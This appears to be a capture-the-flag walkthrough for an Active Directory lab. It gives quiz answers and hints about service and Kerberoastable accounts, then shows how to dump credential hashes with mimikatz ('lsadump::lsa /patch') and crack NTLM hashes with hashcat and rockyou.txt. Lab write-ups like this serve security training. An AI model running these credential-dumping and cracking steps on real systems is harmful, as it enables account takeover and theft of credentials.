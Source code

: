 What service is also a domain admin

run list all service accounts. it will return one service accout.

### 3.2

What two users are Kerberoastable?

run `List all Kerberoastable Accounts` to get 2 accounts.
hint start with `S*********` account then `K*****`

---

---

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

## Task 04: Dumping hashes w/ mimikatz

* Dump Hashes w/ mimikatz -
  * `mimikatz.exe` to start the mimikatz
  * `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly
  * `lsadump::lsa /patch` Dump those hashes!
* Crack those hashes w/ hashcat
  * `hashcat -m 1000 <hashFile> rockyou.txt` #rockyou usually found on `/usr/share/wordlists/rockyou.txt`

* running `mimikatz`
  ![mimikatz](https://i.imgur.com/rkbUcba.png)

* Cracking the hashes
  
```zsh
     hashcat -m 1000 --force --username hash.txt /usr/share/wordlists/rockyou.txt
```

* -m 1000 = hash type, in this case 1000 specifies a NTLM hash type
* --force = ignore warnings
* --show = compares hashlist with potfile; show cracked hashes
* --username = enables ignoring of usernames in hashfile
* hash.txt = our file with the username:hash information
* rockyou.txt = our word list with the passwords.
